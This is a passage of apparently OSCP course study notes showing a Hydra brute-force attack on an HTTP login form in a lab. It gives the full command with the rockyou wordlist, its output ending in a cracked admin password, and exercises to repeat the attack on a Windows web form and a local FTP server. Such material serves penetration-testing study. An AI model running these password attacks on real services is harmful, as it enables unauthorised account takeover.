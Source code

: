 • In addition, we will supply the service module name (http-form-post)and its required arguments (“/form/frontpage.php:user=admin&pass=^PASS^:INVALIDLOGIN”) as shown in Listing :

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/54.jpg)

-P             = wordlist
-vV  		   = verbose output
-f 			   = stop the attack first successful result found
http-form-post = service module name
/form/frontpage etc = required arguments.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/55.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/56.jpg)

kali@kali:~$ hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PAS
S^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret servic
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-06-07 15:55:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:143443
[DATA] attacking http-post-form://10.11.0.22/form/frontpage.php:user=admin&pass=^PASS^
:INVALID LOGIN
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "123456" - 1 of 14344399 [child 0]
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "12345" - 2 of 14344399 [child 1] (
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "123456789" - 3 of 14344399 [child
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "password" - 4 of 14344399 [child 3
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "iloveyou" - 5 of 14344399 [child 4
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "princess" - 6 of 14344399 [child 5
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "1234567" - 7 of 14344399 [child 6]
.....
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "karina" - 268 of 14344399 [child 1
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "dookie" - 269 of 14344399 [child 1
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "hotmail" - 270 of 14344399 [child
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "0123456789" - 271 of 14344399 [chi
[80][http-post-form] host: 10.11.0.22 login: admin password: crystal
[STATUS] attack finished for 10.11.0.22 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-06-07 15:55:29

• Although this required some investigation of the application, the result is worth it as a valid password was discovered.

• The other service modules included with Hydra are well worth the effort to master.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/57.jpg)

19.3.4.1 Exercises


(Reporting is not required for these exercises)

1.Run the HTTP POST password attack against the web form on your Windows client.

2.Perform a FTP password attack against the Pure-FTPd application on your local Kali Linuxmachine.
19.4 Leveraging Password Hashes
